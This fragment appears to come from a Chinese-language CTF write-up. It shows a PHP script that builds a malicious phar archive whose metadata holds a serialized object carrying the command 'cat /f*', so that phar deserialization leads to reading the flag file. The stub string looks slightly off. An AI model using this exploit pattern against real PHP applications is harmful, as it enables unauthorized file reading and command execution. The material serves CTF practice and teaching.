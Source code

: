 ![image-20231211153208539](images/71.png)

仍然是可以触发phar反序列化

```
<?php
class story{
    public $eating = 'cat /f*';
    public $God='true';
}
@unlink("1.phar");
$phar = new Phar("1.phar");
$phar->startBuffering();
$phar->setStub("<php __HALT_COMPILER(); ?>");
$o = new story();
$phar->setMetadata($o);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```
